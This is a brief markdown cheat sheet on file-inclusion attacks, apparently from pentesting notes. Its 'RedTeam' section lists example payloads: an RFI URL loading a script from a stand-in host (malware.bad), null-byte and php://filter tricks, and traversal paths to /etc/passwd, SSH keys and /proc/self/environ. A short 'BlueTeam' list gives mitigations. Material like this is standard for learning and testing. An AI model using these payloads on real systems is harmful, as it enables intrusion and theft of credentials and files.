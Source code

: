 # RedTeam

## Remote File Inclusion

*--> Attacker uploads file from external source*

1. Inject remote file from own server
    - https://example.com/login.php?user=http://malware.bad/malicious.php
2. Inject malicious script
   - https://example.com/login.php?user=malicious.php

<br />

## Local File Inclusion

*>> Attacker retrieves file that already exists on hosting server*

*>> If LFI is existing, you can see the source code interpreted by the server*

#### Tips

1. Null Byte Attack
   - https://example.com/login.php?user=../../Windows/system32/cmd.exe%00
   - %00 terminates string to avoid adherence of specific extension (e.g. .php)
2. Base64 encoded
   - ?user=php://filter/read=convert.base64-encode/resource=/etc/passwd
   - Decode the response to get target output
3. Fuzzing via Burpsuite Intruder (Directory Traversal)
4. LFI Suite:
   - [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)

#### Files to check while enumerating LFI
- `../../../../../../../etc/passwd`
- `../../../../../../../home/<users>/.ssh/authorized_keys`
- `../../../../../../../home/<users>/.ssh/bash_history`
- To get the username of who we’re running as: `../../../../../../../proc/self/environ`
- To see what binary is running this service: `../../../../../../../proc/self/cmdline`

<br />

# BlueTeam

## Best Practice
- Input Validation (Whitelisting allowed file extensions)
- Exclude the directory separators “/” 
- Patch php version regularly
